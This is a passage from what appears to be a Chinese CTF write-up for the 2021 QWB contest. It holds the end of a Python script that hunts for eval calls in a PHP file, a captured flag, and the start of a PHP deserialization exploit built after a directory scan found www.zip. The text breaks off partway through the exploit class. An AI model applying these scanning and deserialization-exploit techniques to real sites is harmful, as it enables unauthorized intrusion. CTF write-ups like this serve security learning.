 ```python
                geteMeth(lines, flag, eVar)
                num += 1
            flag += 1
with open("class.php", "r") as f:
    lines = f.readlines()
    flag = 0
    num = 0
    for i in lines:
        if "eval" in i:
            epos = i.find("eval")
            eVar = geteVar(i)
            geteMeth(lines, flag, eVar)
            break
        flag+=1
geteval()

```

![QQ图片20210614194206](2021qwb/QQ%E5%9B%BE%E7%89%8720210614194206.png)

flag{42a17bce-75b3-4e4e-a073-e5ec1bb4a218}

## 赌徒 | done | Err0r

扫目录发现`www.zip`

发现是反序列化，exp：

```php
<?php
class Start
{
    public $name;
    public $flag;

    public function __construct(){
        echo "";
    }

    public function _sayhello(){
        echo $this->name;
        return 'ok';
    }

    public function __wakeup(){
        echo "hi";
        $this->_sayhello();
    }
```
